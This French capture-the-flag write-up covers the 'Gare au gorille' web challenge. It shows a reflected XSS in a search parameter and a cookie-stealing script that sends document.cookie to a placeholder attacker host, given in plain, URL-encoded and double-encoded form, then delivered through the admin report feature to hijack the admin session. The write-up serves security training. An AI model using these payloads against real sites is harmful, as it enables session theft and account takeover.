 # Gare au gorille

## Enoncé
J'ai construit un site sans prétention pour stocker ma collection de memes !

## Découverte
En naviguant sur le site, on trouve plusieurs choses : 
- l'url /flag correspondant au bouton "Ajouter un meme" qui n'est accesible que par l'admin
- une fonction de recherche par le paramètre /?search=
- une fonction de signaler certaines images à l'admin

## Réflexion
La construction de site présente laisse penser qu'on doit s'attendre à une XSS et éventuellement un vol de cookie. On teste donc le champ /?search= avec un payload POC :
`https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>alert("XSS")</script>`
Et bingo, on obtient bien un pop-up JavaScript qui confirme notre hypothèse.

## Exploitation
On imagine donc qu'on doit voler le cookie de l'admin en lui envoyant un payload via la fonction de signalement d'image.
### Fabrication du payload
Après quelque recherches, on trouve facilement ce payload :

```<script>var i=new Image;i.src="http://[ATTACKINGIP]"+document.cookie;</script>```

On test donc le payload sur notre propre session avec le champ de recherche : 

```https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>var i=new Image; i.src="http://[ATTACKINGIP]"+document.cookie;</script>```

Problème : les caractères `;` et `+` ne sont pas bien interprétés.

### Résolution de l'encodage

On modifie le payload avec l'URLencoding :

```https%3A%2F%2Fgare-au-gorille.france-cybersecurity-challenge.fr%2F%3Fsearch%3D%3Cscript%3Evar%20i%3Dnew%20Image%3B%20i.src%3D%22http%3A%2F%2F%5BATTACKINGIP%5D%22%2Bdocument.cookie%3B%3C%2Fscript%3E```

L'exploit fonctionne bien sur notre session.

### Envoi du payload

Après plusieurs tentatives, le payload n'est pas exécuté côté admin. On suppose donc que l'URLencode est décodé avant d'être présenté à l'admin. L'essai suivant tombe sous le sens, DOUBLE URLencoding :

```https%253A%252F%252Fgare-au-gorille.france-cybersecurity-challenge.fr%252F%253Fsearch%253D%253Cscript%253Evar%2520i%253Dnew%2520Image%253B%2520i.src%253D%2522http%253A%252F%252F%255BATTACKINGIP%255D%2522%252Bdocument.cookie%253B%253C%252Fscript%253E```

Parfait, le cookie admin nous est renvoyé sur le serveur attaquant, plus qu'à modifier notre cookie de session et se diriger dans /flag pour résoudre le challenge.
